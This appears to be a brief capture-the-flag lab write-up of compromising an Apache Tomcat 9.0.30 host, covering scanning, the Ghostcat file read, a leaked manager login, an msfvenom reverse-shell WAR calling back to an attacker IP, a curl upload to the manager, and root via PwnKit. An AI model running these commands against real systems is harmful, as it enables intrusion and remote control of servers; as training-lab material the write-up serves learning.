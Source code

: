 Started with a nmap scan
```
8009 Apache jserv v1.3
8080 Apache Tomcat 9.0.30
```
Running a gobuster scan
```
/docs/
/examples
/manager
```

Just doing a quick search of version numbers I found that its vulnerable to `Ghost cat` we read the `/WEB-INF/web.xml` file and it has some notes from the company and a login for a webdev account `webdev:Hgj3......1` we can use this login to get access to the host manager and looks like this user also has the GUI disabled  so we can try and make a war file using msfvenom 
`msfvenom -p java/shell_reverse_tcp LHOST=10.13.8.255 LPORT=4443 -f war -o shell.war` 
And now we can upload a war file
`curl --user 'webdev' --upload-file shell.war http://10.10.200.224:8080/manger/text/deploy?path=/shell.war` 
And now we have a shell onto the webserver and then go to the browser and download the file and we will get a call back as the web sever doing a linpeas scan we can just get root using PwnKit